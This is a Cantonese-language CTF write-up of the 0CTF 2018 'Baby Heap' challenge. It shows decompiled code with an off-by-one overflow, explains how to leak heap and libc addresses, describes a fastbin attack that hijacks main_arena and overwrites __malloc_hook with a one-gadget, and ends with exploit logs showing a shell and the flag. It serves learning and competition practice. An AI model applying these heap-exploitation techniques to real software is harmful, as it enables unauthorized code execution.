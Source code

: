 # Baby Heap 2018 - 183pts

題目:
>
>Let's practice the very basic [heap](babyheap.tar.gz) techniques in 2018!
>
>202.120.7.204:127


Menu:

```
   / //_// ____/ ____/ | / /  / /   /   |  / __ )
  / ,<  / __/ / __/ /  |/ /  / /   / /| | / __  |
 / /| |/ /___/ /___/ /|  /  / /___/ ___ |/ /_/ /
/_/ |_/_____/_____/_/ |_/  /_____/_/  |_/_____/

===== Baby Heap in 2018 =====
1. Allocate
2. Update
3. Delete
4. View
5. Exit
Command: 
```

呢條係經典嘅heap題目,有齊 allocate, update, delete, view

# vulnerability:

```C
{
    printf("Size: ");
    LODWORD(v1) = sub_140A();
    v4 = v1;
    if ( (signed int)v1 > 0 )
    {
      v1 = *(_QWORD *)(24LL * v3 + a1 + 8) + 1LL;
      if ( v4 <= v1 )
      {
        printf("Content: ");
        sub_1230(*(_QWORD *)(24LL * v3 + a1 + 16), v4);
        LODWORD(v1) = printf("Chunk %d Updated\n", (unsigned int)v3);
      }
    }
    
  ```
  
係update function個到, input content會比input size讀多左1 byte 入去heap到,一個好明顯嘅 off by one bug
  
我地可以用個個 byte shrink 或者extend個 chunk

不過呢題有一個constraint,最多只可以calloc到 0x60 chunk(fast bin),而且call calloc會將舊content 清0

所以無得靠直接free unsorted bin leak libc/heap address

```C

  for ( i = 0; i <= 15; ++i )
  {
    if ( !*(_DWORD *)(24LL * i + a1) )
    {
      printf("Size: ");
      v2 = sub_140A();
      if ( v2 > 0 )
      {
        if ( v2 > 0x58 )
          v2 = 0x58;
        v3 = calloc(v2, 1uLL);
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;
        printf("Chunk %d Allocated\n", (unsigned int)i);
      }
      return;
    }
  }
}
```
# Leak Information

係呢個情況下我地靠update n th chunk,用off by one overwrite下一個chunk(n+1 th chunk)嘅size, 再free下一個chunk(n+1 th chunk)

咁就可以將n+1 th chunk 放入unsorted bin, 之後再view n th chunk leak libc

leak heap address 可以用上面方法放多一個chunk入unsorted bin,再view 或者create一個k size fastbin,free左佢,再靠 off by one, extend一組 chunk, corrupt 包左嘅一個chunk做k size, 由於fastbin係 single linked list所以 leak到 heap address

# Exploit

我地可以free某個包住左嘅chunk 做 fastbin attack

你以為你已經get shell?? 少年你太年輕了

因為最大只可以calloc 0x60 chunk, 而要 bypass fast bin checking, calloc 去_malloc_hook附近位置,需要 calloc到 0x70 chunk

最後發現,如果heap address 開頭係0x56,我地可以靠calloc 0x60 chunk 去到main_arena紀錄current top address附近嘅位置

所以我地用fastbin attack,calloc 去main_arena+offset,edit top 做_malloc_hook附近位置,再做幾次calloc clean返之前d位,最後我地拎到 _malloc_hook,再 overwrite _malloc_hook->one gadget rce,call calloc->get shell

# Flag

```
flag{have_fun_with_fastbin}
```

logs:
```
# [+] Opening connection to 202.120.7.204 on port 127: Done
# [*] '/root/Desktop/CTF_Game/0ctf_2018/baby_heap/libc.so.6'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Leaking heap addr
# [*] Leaked heap addr :0x562ecd700000
# [*] Leaking libc
# [*] Leaked libc :0x7f58a9390b58
# [*] Leaked libc base :0x7f58a8ff7000
# [*] __malloc_hook : 0x7f58a9390af0
# [*] __free_hook : 0x7f58a9392788
# [*] main_arena : 0x7f58a9390b00
# [*] main_arena : 0x7f58a9390b00
# [*] Hijacking main_arena
# 73
# [*] removing old 0x20 to clean up the list
# [*] starting attack :)
# [*] Switching to interactive mode
# Chunk 9 Updated
# 1. Allocate
# 2. UpdateSize: total 84
# drwxr-xr-x  22 root root  4096 Mar 14 09:48 .
# drwxr-xr-x  22 root root  4096 Mar 14 09:48 ..
# drwxr-xr-x   2 root root  4096 Mar 30 19:15 bin
# drwxr-xr-x   3 root root  4096 Mar 30 19:16 boot
# drwxr-xr-x  16 root root  2960 Mar 14 14:37 dev
# drwxr-xr-x  77 root root  4096 Mar 30 19:21 etc
# drwxr-xr-x   3 root root  4096 Mar 30 19:16 home
# lrwxrwxrwx   1 root root    29 Mar 14 09:48 initrd.img -> boot/initrd.img-4.9.0-6-amd64
# lrwxrwxrwx   1 root root    29 Mar 14 09:35 initrd.img.old -> boot/initrd.img-4.9.0-4-amd64
# drwxr-xr-x  14 root root  4096 Mar 14 09:40 lib
# drwxr-xr-x   2 root root  4096 Mar 28 21:47 lib64
# drwx------   2 root root 16384 Mar 14 09:35 lost+found
# drwxr-xr-x   3 root root  4096 Mar 14 09:35 media
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 mnt
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 opt
# dr-xr-xr-x 101 root root     0 Mar 14 14:37 proc
# drwx------   4 root root  4096 Mar 31 06:27 root
# drwxr-xr-x  17 root root   580 Mar 31 11:05 run
# drwxr-xr-x   2 root root  4096 Mar 30 19:15 sbin
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 srv
# dr-xr-xr-x  13 root root     0 Mar 31 11:43 sys
# drwx-wx-wt   8 root root  4096 Apr  1 02:17 tmp
# drwxr-xr-x  10 root root  4096 Mar 14 09:35 usr
# drwxr-xr-x  11 root root  4096 Mar 14 09:35 var
# lrwxrwxrwx   1 root root    26 Mar 14 09:48 vmlinuz -> boot/vmlinuz-4.9.0-6-amd64
# lrwxrwxrwx   1 root root    26 Mar 14 09:35 vmlinuz.old -> boot/vmlinuz-4.9.0-4-amd64
# $ cat flag
# cat: flag: No such file or directory
# $ cd home
# $ ls
# babyheap
# $ cd babyheap
# $ cat flag
# flag{have_fun_with_fastbin}
# [*] Got EOF while reading in interactive
# $  
```

